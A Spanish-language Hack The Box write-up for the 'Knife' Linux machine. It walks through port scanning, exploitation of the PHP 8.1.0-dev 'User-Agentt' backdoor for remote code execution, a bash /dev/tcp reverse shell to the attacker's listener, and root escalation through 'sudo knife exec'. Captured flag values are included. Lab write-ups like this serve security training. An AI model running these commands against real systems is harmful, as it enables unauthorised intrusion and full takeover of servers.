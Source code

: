 
# Knife (Linux) ![](https://github.com/Tnr1112/HTB-Writeups/Machines-Maquinas/common-images/linux.jpg "Linux")  - Español
![](https://github.com/Tnr1112/HTB-Writeups/Machines-Maquinas/Easy-Facil/Knife/images/logo.jpg "Knife")
Creador de la máquina: **MrKN16H7**
### Writeup por Tnr1112

## Enumeración
### Empezamos escaneando todos los puertos abiertos

    nmap -p- -sS --min-rate 5000 --open -vvv -n 10.10.10.242 -oG allPorts
Lo exporto en modo grepeable para después poder utilizar una función que me extrae los puertos

|PORT|STATE|SERVICE| 
|--|--|--|
|22/tcp|open|ssh|
|80/tcp|open|http|

### Buscamos los servicios que corren los puertos abiertos

```
nmap -sC -sV -p22,80 10.10.10.242 -oN targeted
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### Escaneamos buscando alguna vulnerabilidad

    nmap -p22,80 --script=”vuln and safe” 10.10.10.242 -oN vulnSafeScan
Pero no hay suerte :(

### Web
Esta es la web. En el código no hay nada sospechoso.
![](https://github.com/Tnr1112/HTB-Writeups/Machines-Maquinas/Easy-Facil/Knife/images/website.jpg "Website")

### Fuzzing
Utilizamos `gobuster` para enumerar algún directorio, pero no hay suerte.
```
gobuster dir -u http://10.10.10.242 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.242
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2021/09/15 13:39:56 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 5815]
Progress: 27126 / 441122 (0.08%)                 ^C
[!] Keyboard interrupt detected, terminating.
                                                
===============================================================
2021/09/15 13:40:03 Finished
===============================================================
```
### Whatweb
Utilizamos el whatweb para ver qué información obtenemos

```
whatweb 10.10.10.242
http://10.10.10.242 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.242], PHP[8.1.0-dev], Script, Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```

## Exploit PHP 8.1.0-dev User-Agentt
Podemos ver que utiliza **PHP 8.1.0-dev**
Existe una vulnerabilidad que al agregar como Header un **“User-Agentt”** podemos ejecutar código de forma arbitraria.
Yo voy a utilizar el siguiente script: [PHP-8.1.0-dev_WebShell-RCE-Github](https://github.com/ColdFusionX/PHP-8.1.0-dev_WebShell-RCE)

Ejecutamos el .py con el parámetro `-l` le indicamos el host y podremos ejecutar los comandos que queramos

    python3 php8-1RCE2.py -l http://10.10.10.242

Una vez adentro, con `whoami` podemos saber a que usuario pertenece la sesión en la que estamos.
Obtenemos la flag de user en el directorio del usuario james.
```
[+] PHP 8.1.0-dev WebShell RCE by ColdFusionX 
Target is running on PHP 8.1.0-dev
*Shoot your commands below* 

[^] WebShell=- whoami
james

[^] WebShell=- cat /home/james/user.txt
5615f62140ac79f46e2fdb9a04ac9ed0
```
Ahora con sudo -l verificamos los comandos disponibles que se pueden ejecutar con sudo.
```
[^] WebShell=- sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```
Efectivamente, podemos ejecutar el comando `knife`

> knife es una herramienta de línea de comando que provee una interfaz entre un repositorio de chef local y el Chef Infra Server. 

[Documentación knife](https://docs.chef.io/workstation/knife/)

## Escalada de privilegios

Con el comando `exec` podemos ejecutar código hecho en **ruby**. Por lo que podremos ejecutar cualquier comando que queramos con privilegios.
[Documentación knife exec](https://docs.chef.io/workstation/knife_exec/)
```
[^] WebShell=- sudo knife exec -E 'puts `cat /root/root.txt`'
73e63ad29b6339faea23f15406f2b1a0
```
Para obtener control total podremos abrir una reverse shell.
Nos ponemos a escuchar en el puerto 4444
```
nc -nlvp 4444
listening on [any] 4444 ...
```

En el server ejecutamos:

    [^] WebShell=- /bin/bash -c 'bash -i >&/dev/tcp/Nuestra IP/Nuestro puerto 0>&1'

Para escalar privilegios, abriremos una bash desde knife con `sudo knife exec -E 'exec "/bin/bash -i"'`
```
listening on [any] 4444 ...
connect to [10.10.14.189] from (UNKNOWN) [10.10.10.242] 48064
bash: cannot set terminal process group (1018): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ sudo knife exec -E 'exec "/bin/bash -i"'  
sudo knife exec -E 'exec "/bin/bash -i"'
bash: cannot set terminal process group (1018): Inappropriate ioctl for device
bash: no job control in this shell
root@knife:/# whoami
whoami
root
```
Y listo, obtendremos una shell con **root** :)